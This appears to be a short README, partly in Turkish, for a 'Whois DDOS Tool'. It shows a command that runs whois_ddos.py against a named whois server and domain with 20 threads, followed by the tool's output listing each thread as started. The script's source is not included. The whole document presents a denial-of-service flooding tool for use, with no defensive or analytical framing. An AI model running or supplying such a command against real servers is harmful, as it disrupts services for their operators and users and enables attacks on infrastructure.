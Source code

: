  
Whois DDOS Tool
----------------

Betik asagidaki sekilde calistirilmaktadir.

#./whois_ddos.py -h whois.nicproxy.com agguvenligi.net 20
 0 : thread is started ...
 1 : thread is started ...
 2 : thread is started ...
3 : thread is started ...
4 : thread is started ...
5 : thread is started ...
6 : thread is started ...
7 : thread is started ...
8 : thread is started ...
9 : thread is started ...
10 : thread is started ...
11 : thread is started ...
12 : thread is started ...
13 : thread is started ...
14 : thread is started ...
15 : thread is started ...
16 : thread is started ...
17 : thread is started ...
18 : thread is started ...
19 : thread is started ...
